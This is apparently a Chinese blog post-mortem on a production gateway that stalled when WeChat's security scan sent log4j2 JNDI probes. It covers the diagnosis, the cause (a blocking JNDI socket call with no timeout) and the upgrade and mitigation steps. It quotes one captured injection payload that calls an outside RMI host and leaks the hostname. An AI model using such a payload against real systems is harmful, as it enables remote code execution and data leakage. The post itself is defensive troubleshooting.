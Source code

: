 ```yaml
---
layout: post
title: "一次 Java log4j2 漏洞导致的生产问题"
date: "2022-10-31T19:16:35.928Z"
---
```

一次 Java log4j2 漏洞导致的生产问题
========================

一、问题
----

近期生产在提交了微信小程序审核后(后面会讲到)，总会出现一些生产告警，而且持续时间较长。我们查看一些工具和系统相关的，发现把我们的 gateway 差不多打死了。 有一些现象。

1.  网关有很多接口处理慢。
2.  网关健康检查不通过，发生重启。

前面我们提到是微信小程序审核后，为什么我们觉得是和这个相关，因为我们在相关的时间段的 `Nginx` 请求日志种的 agent 字段看到了 `Tencent Security Team, more information: https://developers.weixin.qq.com/community/minihome/doc/0008ea401c89c02cff2d1345051001` 。我们可以看到小程序提交审核后平台将对提审的小程序进行安全检测. 我们也找到对应的小程序负责人询问，是当天那个时间段前10分钟左右有提交小程序审核。 而且这个小程序也是包含了这些扫描接口的。

![img](https://djxblog.oss-cn-shenzhen.aliyuncs.com/picture/typora/%E4%BC%81%E4%B8%9A%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_16672206357298.png)

我们在想是业务场景触发的问题与这个扫描凑巧在一个时间段吗? 因为我们认为这个检查频率不至于打垮我们的服务。我们决定在一个业务闲时，也就是低峰期的时候检测一次(重新提交一次小程序提审)。 我们在提交完之后发现，扫描开始之后，我们的网关还是支撑不住了。频繁的超时和健康检查失败。 网关服务有节点发生了重启。 我们笃定跟微信的扫描是有关了。

二、解析过程
------

### 基本问题解析

我们在第二次扫描的时候，也做了一些准备。

1.  dump `jvm` 的内存。
2.  dump `java` 的线程栈。
3.  关注 `Nginx` 和 `gateway` 的日志。

我们 `dump` 线程栈发现了一些内容，但是我们没有引起注意。

![image-20220613113407798](https://djxblog.oss-cn-shenzhen.aliyuncs.com/picture/typora/image-20220613113407798.png)

内存 `dump` 的话，我们发下并没有占用太多内存，内存使用正常。

我们最后在 `gateway` 发现了一些日志。

![image-20220613114539563](https://djxblog.oss-cn-shenzhen.aliyuncs.com/picture/typora/image-20220613114539563.png)

整个请求耗时50多s。

我们看到 `gateway` 打出这个请求的请求体是

    {
        "pageNum": "${jndi:rmi://9.4.131.68:1099/bypass8cc3241fe66af8c6a1e82d9964e059be-/-${hostName}}",
        "module": 1,
        "pageSize": 20
    }
    

这个 `pageNum` 的值看着就像注入的。然后我拿着这个值去搜索。

![image-20220613141903035](https://djxblog.oss-cn-shenzhen.aliyuncs.com/picture/typora/image-20220613141903035.png)

发现可能跟 `log4j2` 有关， 询问开发目前我们使用的是 `2.13.1`

在[log4j2漏洞公告](https://logging.apache.org/log4j/2.x/security.html)中，我们发现 受影响的版本是 `2.0-beta7 =< Apache Log4j 2.x < 2.17.0（2.3.2 和 2.12.4 版本不受影响）`

该漏洞出现的时间是在 2021-12-29， 漏洞的详情

> Apache Log4j2 是一个基于Java的开源日志记录框架，该框架重写了Log4j框架，是其前身Log4j 1.x 的重写升级版，并且引入了大量丰富的特性，使用非常的广泛。该框架被大量用于业务系统开发，用来记录日志信息。
> 
> 据官方描述，拥有修改日志配置文件权限的攻击者，可以构造恶意的配置将 JDBC Appender 与引用 JNDI URI 的数据源一起使用，从而可通过该 JNDI URI 远程执行任意代码。
> 
> 由于该漏洞要求攻击者拥有修改配置文件权限（通常需借助其他漏洞才可实现），非默认配置存在的问题，漏洞成功利用难度较大。

log4j2 漏洞相关源码解析
---------------

`log4j2` 在支持日志打印的时候，支持了十几种旁路策略，其中有一个就是`jndi`，`log4j`用 `jndi` 实现远程调用并将结果进行日志打印，底层采用了`socket` 进行连接，但是没有设置超时时间，当日志中有多个${导致循环调用多次。所以上面日志打印会重复2次 `jndi` 的操作，又因为我们日志打印配置了`console` 和 `rollingFile`。所以会打印四次日志。

`gateway`采用 `Netty` 作为底层容器，采用了`Reactor`模式，有一个事件循环组负责监听事件，事件到达后会丢给另一个事件循环组去处理读写，事件循环组内有多个事件循环器，每个事件循环器由一个线程去处理业务读写，因此打印上面日志会阻塞住其中一个处理线程。从`dump` 出来的单个文件看是只有一个处理线程被阻塞了。而当进行心跳健康判断的时候，有一定几率会被分配给阻塞的线程，因此会放到队列中一直等待线程处理，进而超时了 把 `gateway`网关重启了；

四、问题解决办法
--------

> 参考文档： [https://logging.apache.org/log4j/2.x/security.html](https://logging.apache.org/log4j/2.x/security.html)

### 建议解决办法

1.  升级版本。
    
        Apache Log4j 2.x >= 2.3.2 (Java 6)
        Apache Log4j 2.x >= 2.12.4 (Java 7)
        Apache Log4j 2.x >= 2.17.1 (Java 8 及更新版)
        
    

### 临时解决版本

1.  删除 `JndiLookup.class` 类
    
    在 2.16.0 以外的任何版本中，您可以`JndiLookup`从类路径中删除该类：`zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`。
    
2.  配置环境变量 `LOG4J_FORMAT_MSG_NO_LOOKUPS` 为 `true` （处理场景有限）
    
    > `java` `opts` 配置为 `-Dlog4j2.formatMsgNoLookups=true` （处理场景有限）
    

### 解决后测试

![image-20220613143932896](https://djxblog.oss-cn-shenzhen.aliyuncs.com/picture/typora/image-20220613143932896.png)

配置完成之后

![image-20220613144432194](https://djxblog.oss-cn-shenzhen.aliyuncs.com/picture/typora/image-20220613144432194.png)

前者处理为56秒，后者需要的时间为`354ms`. 是正常的响应时间。

作者：[理想三旬](https://www.cnblogs.com/operationhome/)

出处：

本人承接各种项目维护和python项目开发， 如果觉得文章写得不错，或者帮助到您了，请点个赞，加个关注哦。运维学习交流群:544692191

本文版权归作者所有，欢迎转载，如果文章有写的不足的地方，或者是写得错误的地方，请你一定要指出，因为这样不光是对我写文章的一种促进，也是一份对后面看此文章的人的责任。谢谢。